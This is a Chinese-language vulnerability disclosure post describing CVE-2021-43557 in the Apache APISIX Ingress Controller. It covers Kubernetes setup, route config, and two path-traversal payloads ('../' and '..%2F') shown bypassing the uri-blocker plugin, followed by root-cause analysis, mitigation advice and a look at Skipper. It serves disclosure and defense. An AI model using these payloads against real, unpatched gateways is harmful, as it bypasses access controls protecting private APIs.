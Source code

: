 ```yaml
---
title: "APISIX request_uri 变量控制不当，存在路径穿透风险"
author: "Marcin Niemiec"
authorURL: "https://github.com/xvnpw"
authorImageURL: "https://avatars.githubusercontent.com/u/17719543?v=4"
keywords: 
- Apache APISIX
- Kubernetes
- Request_uri
- 安全漏洞
description: 本文介绍了作者对 Apache APISIX Ingress Controller 中 $request_uri 变量不安全使用的问题研究以及如何复现该漏洞及后续处理措施。
tags: [Ecosystem]
---
```


> 在这篇文章中，将介绍我对 Apache APISIX Ingress Controller 中 `$request_uri` 变量不安全使用的问题研究。

<!--truncate-->

本文提及的 Ingress Controller 中 `$request_uri` 变量不安全使用的问题，目前该漏洞已被确认为 CVE-2021-43557。在向社区及时反馈后，目前该漏洞已第一时间被修复。同时在文章最后，我也将简要地提到我为同一问题测试的[Skipper](https://github.com/zalando/skipper) 项目。

> Apache APISIX 是一个动态、实时、高性能的 API 流量处理平台，它提供了丰富的流量管理功能，如负载均衡、动态上游、金丝雀发布、断路器、身份认证、可观测性等。

为什么是 `$request_uri`？

[`$request_uri`](https://nginx.org/en/docs/http/ngx_http_core_module.html#var_request_uri)在认证和授权插件中被多次使用。因为它是**not normalized**，所以就增加了绕过一些限制的可能性。

Apache APISIX 内置多种身份认证插件，当然，你也可以编写自定义插件。为了验证它受到了路径遍历问题的影响，我选择了 `uri-blocker` 插件进行演示。

## 开始部署

在这里，我使用了 0.7.2 版本的 Helm Chart 来将 Apache APISIX 部署至 Kubernetes 中：

```shell
helm repo add bitnami https://charts.bitnami.com/bitnami
helm repo update
kubectl create ns ingress-apisix
helm install apisix apisix/apisix \
  --set gateway.type=NodePort \
  --set ingress-controller.enabled=true \
  --namespace ingress-apisix \
  --version 0.7.2
kubectl get service --namespace ingress-apisix
```

> 如果安装时出现问题，请参考[官方指南](https://github.com/apache/apisix-ingress-controller/blob/master/docs/en/latest/deployments/minikube.md)。

接着，我部署了一条 `ApisixRoute` 资源以便创建 Ingress 路由：

```yaml
apiVersion: apisix.apache.org/v2beta1
kind: ApisixRoute
metadata:
  name: public-service-route
spec:
  http:
  - name: public-service-rule
    match:
      hosts:
      - app.test
      paths:
      - /public-service/*
    backends:
        - serviceName: public-service
          servicePort: 8080
    plugins:
      - name: proxy-rewrite
        enable: true
        config:
          regex_uri: ["/public-service/(.*)", "/$1"]
  - name: protected-service-rule
    match:
      hosts:
      - app.test
      paths:
      - /protected-service/*
    backends:
        - serviceName: protected-service
          servicePort: 8080
    plugins:
      - name: uri-blocker
        enable: true
        config:
          block_rules: ["^/protected-service(/?).*"]
          case_insensitive: true
      - name: proxy-rewrite
        enable: true
        config:
          regex_uri: ["/protected-service/(.*)", "/$1"]
```

`ApisixRoute` 可以做到以下内容：

- 为 `public-service` 和 `private-service` 创建路由；
- 开启 `proxy-rewrite` 来删除前缀；
- 为 `protected-service` 配置了 `uri-blocker` 插件。这个插件会阻止任何以 `/protected-service` 开头的请求。

## 复现步骤

在这里，我使用的是 **2.10.0** 版本的 Apache APISIX。

选择使用 minikube 来访问 Apache APISIX 路由资源：

```shell
kubectl exec -it -n ${Apache APISIX namespace} ${Apache APISIX Pod name} -- curl --path-as-is http://127.0.0.1:9080/public-service/public -H 'Host: app.test'
```

此外，我也写了一个脚本来减少重复性操作：

```shell
#/bin/bash

kubectl exec -it -n ingress-apisix apisix-dc9d99d76-vl5lh -- curl --path-as-is http://127.0.0.1:9080$1 -H 'Host: app.test'
```

> 在尝试复现问题时，可将 `apisix-dc9d99d76-vl5lh`替换为实际的 Apache APISIX Pod 名称。

接下来让我们开始验证路由和插件是否按预期正常工作：

```shell
$ ./apisix_request.sh "/public-service/public"
Defaulted container "apisix" out of: apisix, wait-etcd (init)
{"data":"public data"}
```

```shell
$ ./apisix_request.sh "/protected-service/protected"
Defaulted container "apisix" out of: apisix, wait-etcd (init)
<html>
<head><title>403 Forbidden</title></head>
<body>
<center><h1>403 Forbidden</h1></center>
<hr><center>openresty</center>
</body>
</html>
```

从上边我们看到，`public-service` 是可用的，`protected-service` 则被插件阻止了。

现在让我们测试一下 Payload：

- 情况一

```shell
$ ./apisix_request.sh "/public-service/../protected-service/protected"
Defaulted container "apisix" out of: apisix, wait-etcd (init)
{"data":"protected data"}
```

- 情况二

```shell
$ ./apisix_request.sh "/public-service/..%2Fprotected-service/protected"
Defaulted container "apisix" out of: apisix, wait-etcd (init)
{"data":"protected data"}
```

正如你所看到的，在上述两种情况下，我都能够绕过 Uri 的限制。

### 漏洞解析

出现上述情况的根本原因是 `uri-blocker` 插件在处理禁止访问的逻辑中使用了 `ctx.var.require_uri` 变量。可以点击[相关代码](https://github.com/apache/apisix/blob/11e7824cee0e4ab0145ea7189d991464ade3682a/apisix/plugins/uri-blocker.lua#L98)进行查看。

![Cause](https://static.apiseven.com/202108/1637634166887-e3805291-5b00-4b7b-9936-0490266f4ed8.png)

### 漏洞影响

- 攻击者可以绕过访问控制限制逻辑，访问本应该禁止的 API；
- 自定义插件的开发者或许不知道 `ngx.var.request_uri` 变量是不可信任的。

在搜索 `var.request_uri` 相关用法时，我猜测上述漏洞或许对 [authz-keycloak](https://github.com/apache/apisix/blob/master/docs/en/latest/plugins/authz-keycloak.md) 插件也有影响。

具体细节详情可以参考[这段代码](https://github.com/apache/apisix/blob/a3d42e66f60673e408cab2e2ceedc58aee450776/apisix/plugins/authz-keycloak.lua#L578)。如果 keycloak 方面没有进行相关规范化，那么出现漏洞的可能性就很大。

### 处理措施

关于此漏洞的解决方法，我个人建议如果是使用自定义插件的话，可在使用 `ngx.var.request_uri` 变量前进行路径规范化的相关处理。同时可以额外检查下 `ctx.var.upstream_uri` 和 `ctx.var.uri` 这两个变量，虽然可能已经被规范化了，但防患于未然。

## Skipper

Skipper 是我个人在进行上述安全漏洞调查时接触到的另一个 Ingress Controller。因其内容久远未更新，在 Kubernetes 中安装它并不容易。幸运的是，我在开发者文章里找到了如何安装它的相关内容。

这项 Ingress 提供了基于 [WebHook filter](https://opensource.zalando.com/skipper/reference/filters/#webhook) 实现的外部认证可能性。

```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: my-ingress
  annotations:
    zalando.org/skipper-filter: |
            modPath("^/.*/", "/") -> setRequestHeader("X-Auth-Request-Redirect", "${request.path}") -> webhook("http://auth-service.default.svc.cluster.local:8080/verify")
```

通过添加一些 headers 可以优化访问控制决策，但需要用 `setRequestHeader` 过滤器手动完成。

有一个模板可以通过使用 `${}` 来注入变量，但遗憾的是（对攻击者来说）`${request.path}` 有正常化的路径。在它的开发代码中可以看到，开发人员并没有轻易使用 `RequestURI` 和`originalRequest`。

我没有进行相关的路径遍历测试，或许 Skipper 也是安全可信的一个 Ingress Controller 选择。

## 总结

虽然前文中我提到了 Apache APISIX 存在路径遍历的漏洞，但该漏洞并不影响任何外部认证，只是影响了使用 `ctx.var.request_uri` 变量的插件。同时该漏洞已被 Apache APISIX 进行了及时修复，目前已没有安全漏洞问题，大家可放心使用。

关于本文中提到的全部代码都可以在[这里](https://github.com/xvnpw/k8s-CVE-2021-43557-poc)进行查阅参考。
